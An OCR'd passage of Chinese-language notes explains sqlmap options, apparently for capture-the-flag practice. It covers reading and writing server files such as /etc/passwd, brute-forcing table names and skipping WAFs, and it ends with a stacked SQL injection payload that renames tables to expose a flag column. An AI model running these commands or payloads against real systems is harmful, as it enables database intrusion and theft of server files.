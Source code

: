 -
7. --threads=10

- 最大线程数
8. -p "id"
- 指定注入点
9. --flush-session
- 刷新session，用于对注入点的重新注入
10. --wizard
- 面向初学者的友好参数
11. --hex
- 使用十六进制解析数据
12. --encoding=GBK
- 设置编码
13. --file-read="/etc/passwd"
- 读取文件内容
14. --file-write="/path/local/file" --file-dest="/path/remote/file"
- 写入文件

暴力破解
当遇到access数据库或者mysql数据库版本较低（没有information_schema数据库）时，只能使用字典猜解数据库的表名和字段名等信息。

- 表名猜解
15. --common-tables
- 字段名猜解
16. --common-columns
- 设置请求延时（默认5秒），当网络较差时使用
17. --time-sec=6
- 设置注入关键词，即当返回预期的页面时包含的某个字符串
18. --string="success"
- 也可以使用正则表达式
19. --regexp="uid\d+"
20. --prefix=PREFIX
- 指定payload的前缀
21. --suffix=SUFFIX
- 指定payload的后缀
22. --referer=REFERER
- 指定referer
23. --tamper=
- 使用自定义脚本

-o -risk=3 -level=5 --random-agent -skip-waf --batch --dbms=mysql --threads=10 --dbs

1';rename tables `words` to `words1`;rename tables `1919810931114514` to `words`; alter table `words` change `flag` `id` varchar(100);#

- -o

打开所有优化开关

- -threads=10

多线程，默认1，最高10

- -risk=3
